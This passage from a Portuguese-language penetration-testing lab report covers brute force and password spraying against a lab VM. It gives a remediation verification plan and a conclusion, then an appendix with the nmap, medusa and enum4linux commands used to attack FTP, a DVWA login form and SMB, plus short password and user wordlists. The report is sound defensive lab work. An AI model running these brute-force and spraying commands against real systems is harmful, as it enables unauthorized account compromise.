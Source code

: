 ## 8 — Plano de verificação pós-remediação
Após aplicar mitigação:
1. Reexecutar os mesmos testes controlados (usando mesmas wordlists curtas) e confirmar que:  
   - lockout impede brute force;  
   - serviços inseguros estão desativados/atualizados;  
   - alertas foram gerados no SIEM.
2. Documentar resultados e anexar novos artefatos (`nmap_after_remediation.txt`, `medusa_after_attempts.txt`, `siem_alerts.pdf`).

---

## 9 — Conclusão
Os testes demonstraram — em ambiente controlado — que configurações padrão e senhas fracas facilitam comprometimento por brute force e password spraying. As medidas mais efetivas e de prioridade são: **bloqueio/lockout**, **MFA**, **remoção/atualização de serviços inseguros (FTP)** e **monitoramento com alertas**. Após aplicar as medidas listadas, recomenda-se repetir os testes para validar eficácia.

---

## 10 — Apêndice — comandos e wordlists usadas (conteúdo resumido)

### Comandos executados (resumo)
```bash
# nmap
nmap -sV -p 21,22,80,139,445 192.168.56.102 -oN nmap_initial.txt

# FTP brute force (Medusa)
medusa -h 192.168.56.102 -u admin -P wordlists/small-wordlist.txt -M ftp -f | tee medusa_ftp_output.txt

# DVWA form (Medusa) - modelo
medusa -h 192.168.56.102 -u admin -P wordlists/small-wordlist.txt -M http -m FORM:/dvwa/login.php:username:password | tee medusa_dvwa_output.txt

# SMB enumeration + spraying
enum4linux -a 192.168.56.102 > enum4linux_output.txt
medusa -h 192.168.56.102 -U wordlists/userlist.txt -P wordlists/smb-passlist.txt -M smb | tee medusa_smb_output.txt
```

### Wordlists (resumo)
**small-wordlist.txt**
```
password
123456
admin123
qwerty
welcome
letmein
changeit
```
**smb-passlist.txt**
```
Password1
Welcome1
Company2024
```
**userlist.txt**
```
administrator
admin
```